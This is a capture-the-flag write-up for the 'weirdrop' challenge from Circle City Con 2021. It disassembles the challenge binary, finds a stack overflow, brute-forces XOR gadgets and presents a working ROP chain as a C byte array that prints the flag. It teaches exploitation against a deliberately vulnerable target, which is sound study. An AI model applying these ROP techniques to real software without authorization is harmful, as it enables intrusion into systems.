 ## weirdrop (Circle City Con 2021)

Didn't participate in the ctf, but I noticed that there is no writeup for this
challenge, so I decided to address that. :D


## Exploitable Service

We get an exploitable service binary.

```bash
[joey@gibson] file weird-rop
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped
```
Neato! The service is a 64-bit ELF. The binary is statically compiled and not
stripped, making reversing and exploitation much easier for us.


## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,
written in assembly. Here's the program entry:

```asm
┌ 21: entry0 ();
│           0x00401154      e887ffffff     call loc.vuln
│           0x00401159      48c7c03c0000.  mov rax, 0x3c
│           0x00401160      48c7c7000000.  mov rdi, 0
└           0x00401167      0f05           syscall
```
So far so good - the program calls `vuln()` then calls the `exit` system call
with return code `0`. If you are looking for an easy reference for the ABI
[bookmark
this](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md).
Or if you're feeling masochistic you can rummage around in `/usr/include`.

Let's take a look at `vuln()`:
```asm
│           0x004010e0      55             push rbp
│           0x004010e1      4889e5         mov rbp, rsp
│           0x004010e4      4883ec10       sub rsp, 0x10
│           0x004010e8      48c7c0020000.  mov rax, 2
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ; "/flag.txt"
│           0x004010f7      48c7c6020000.  mov rsi, 2
│           0x004010fe      48c7c2000000.  mov rdx, 0
│           0x00401105      0f05           syscall
```
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't actually
using libc, I'm just using libc functions to make the reversed code easier to
look at. You can find the definitions of flags like `O_RDWR` in `/usr/include`
(e.g. `/usr/include/asm-generic/fcntl.h`).

```asm
│           0x00401107      4883c030       add rax, 0x30
│           0x0040110b      880424         mov byte [rsp], al
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa
│           0x00401113      48c7c0010000.  mov rax, 1
│           0x0040111a      48c7c7010000.  mov rdi, 1
│           0x00401121      4889e6         mov rsi, rsp
│           0x00401124      48c7c2020000.  mov rdx, 2
│           0x0040112b      0f05           syscall
```

At this point the `rax` register holds the file descriptor returned by the
`open` syscall. The program adds `0x30` to the file descriptor, which is a
low-tech way of turning a digit into its ASCII representation (`0x30`
represents zero and so on). We store this value on the stack and append `\n` to
it. The program then outputs this number to the stdout: `write(STDOUT_FILENO,
stack_pointer, 2);`

```asm
│           0x0040112d      48c7c0000000.  mov rax, 0
│           0x00401134      48c7c7000000.  mov rdi, 0
│           0x0040113b      4889e6         mov rsi, rsp
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8
│           0x00401145      0f05           syscall
│           0x00401147      48c7c7000000.  mov rdi, 0
│           0x0040114e      4883c410       add rsp, 0x10
│           0x00401152      5d             pop rbp
└           0x00401153      c3             ret
```
Boils down to this:
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes on the stack, nulls out
the `rdi` register, does some final cleanup, and returns. Obviously this is the
vulnerability - we can overwrite the return address on the stack and gain
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that
easy 300 points right? Let's see here...

```asm
  0x00401000                 5e  pop rsi
  0x00401001                 c3  ret

  0x00401002     48c7c000000000  mov rax, 0
  0x00401009                 c3  ret
```

Cool cool.

```asm
  0x0040100a     48c7c001000000  mov rax, 1
  0x00401011                 c3  ret

  0x004010db               0f05  syscall
  0x004010dd                 c3  ret
```

Nice!

```asm
  0x0040109b     4881f7cd030000  xor rdi, 0x3cd
  0x004010a2                 c3  ret

  0x004010d3     4881f79a020000  xor rdi, 0x29a
  0x004010da                 c3  ret
```
Uhm...

```asm
  0x004010cb     4881f7a3010000  xor rdi, 0x1a3
  0x004010d2                 c3  ret

  0x004010c3     4881f798010000  xor rdi, 0x198
  0x004010ca                 c3  ret
```
... okay?

26 `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation path I chose was to take advantage of the open file
descriptor, telegraphed to us by the service, to read the contents of the flag
file and then simply write it to standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`
for the `write` and `read` system calls respectively. We even have a gadget to
load the standard output file descriptor (`1`) into `rdi`.

However we still need to put the flag file descriptor in `rdi` and there is no
clear gadget candidate for this. Time for some XOR math!

I don't know about you, but I'm pretty lazy, so I'm just going to write a Python
script to bruteforce the XOR gadgets we need. (Note that since the `rdi`
register is nulled out, the first XOR gadget will just put the immediate value
into the register). I can permute over every possible combination of XOR gadgets
and break when I get the value I want. `permute.py` is the script that I wrote
for this task. Take a look - nothing fancy here.

The flag file descriptor is always `5`, so we can just run `permute.py` once to
figure out the gadgets we need.

_If you are confused that the file descriptor is `5` and not `3` you are
correct - it's weird. This is likely due to a little bit more code on the
server side that we don't get to see. (I think the challenge would be more
interesting if the file descriptor was somewhat random. That way we would have
to dynamically determine which gadgets to use)._

```
[joey@gibson]$ ./permute.py 5
0x56 0x53
```
Great - so the xor gadgets that use these two operands is what we need. We
should have all of the key elements of our exploit. This is the ROP chain I
came up with:

```C
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!
    0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53
    0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56
    0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx
    0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value
    0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1
    0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
//  ...
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};
```

First 24 bytes is the filler for the stack - recall that the function subtracts
`0x10` from the stack pointer and pops a register. We covered what is going on
with the first two gadgets. The next gadget pops `0x19` into `rdx`, which is
the length of our read. Finally, we shove the `read` syscall number into `rax`
and call it. Then we simply use the gadgets to load the `write` syscall number
and place stdout file decriptor (`1`) as its first argument. The other two
arguments in registers `rsi` and `rdx` remain the same. That's it!

Let's see it in action:

```bash
[joey@gibson]$ ./exploit
CCC{math_is_hard_1234897}
```
